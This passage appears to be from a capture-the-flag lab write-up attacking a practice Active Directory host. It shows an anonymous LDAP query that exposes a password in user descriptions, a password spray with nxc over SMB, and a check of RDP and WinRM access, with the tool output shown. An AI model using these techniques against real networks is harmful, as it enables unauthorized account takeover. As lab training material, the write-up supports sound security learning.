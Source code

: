 ```bash
❯ ldapsearch -H ldap://10.10.197.194 -x -b "DC=THM,DC=LOCAL" -s sub "(&(objectclass=*))"  | grep description:

description: Default container for upgraded user accounts
description: Default container for upgraded computer accounts
description: Default container for domain controllers
description: Builtin system settings
description: Default container for orphaned objects
description: Please change it: ********
description: Tier 1 User                       
description: Tier 1 User
description: Please change it: ********
description: Tier 1 User

```


Got a password from the last action i made and password spray to see which users have this password in use (got 2 hit \m/)  



```bash
❯ nxc smb 10.10.197.194 -u users.txt -p '**********' --continue-on-success                                                                                                                 
SMB         10.10.197.194   445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)                             
SMB         10.10.197.194   445    LABYRINTH        [-] thm.local\Administrator:********** STATUS_ACCOUNT_RESTRICTION
SMB         10.10.197.194   445    LABYRINTH        [+] thm.local\IVY_WILLIS:**********
SMB         10.10.197.194   445    LABYRINTH        [-] thm.local\SOFIA_PATTERSON:********** STATUS_LOGON_FAILURE
SMB         10.10.197.194   445    LABYRINTH        [-] thm.local\VICENTE_BURT:********** STATUS_LOGON_FAILURE 
SMB         10.10.197.194   445    LABYRINTH        [-] thm.local\DIXIE_BERGER:********** STATUS_LOGON_FAILURE 
SMB         10.10.197.194   445    LABYRINTH        [-] thm.local\LIZ_WALTER:********** STATUS_LOGON_FAILURE 
SMB         10.10.197.194   445    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:********** 
```


Since there is valid credentials at hand, check to see what services this users can access and got a RDP hit on user `SUSANNA_MCKNIGHT`


```bash
❯ nxc winrm 10.10.197.194 -u users_ack.txt -p '**********'

❯ nxc rdp 10.10.197.194 -u users_ack.txt -p '**********'
RDP         10.10.197.194   3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.197.194   3389   LABYRINTH        [+] thm.local\IVY_WILLIS:********** 
RDP         10.10.197.194   3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:********** (Pwn3d!)
```
